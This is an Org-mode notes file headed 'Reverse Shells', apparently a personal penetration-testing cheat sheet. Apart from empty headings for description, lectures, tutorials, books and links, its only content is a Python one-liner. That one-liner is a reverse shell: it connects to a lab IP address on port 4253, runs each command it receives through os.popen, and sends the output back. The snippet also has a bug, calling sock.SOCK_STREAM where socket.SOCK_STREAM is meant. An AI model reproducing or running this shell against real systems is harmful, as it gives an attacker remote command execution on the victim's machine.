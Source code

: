 #+TAGS:


* Reverse Shells
* Description
* Python
- too place inline python -c "<code_block>"
#+BEGIN_SRC py
python -c "import socket
import sys
import os

sock=socket.socket(socket.AF_INET, sock.SOCK_STREAM)
sock.connect(('192.168.56.103', 4253))

while True:
    cmd = sock.recv(1024)
    out = os.popen(cmd).read()
    sock.send(out)"

#+END_SRC
* Lecture
* Tutorial
* Books
* Links
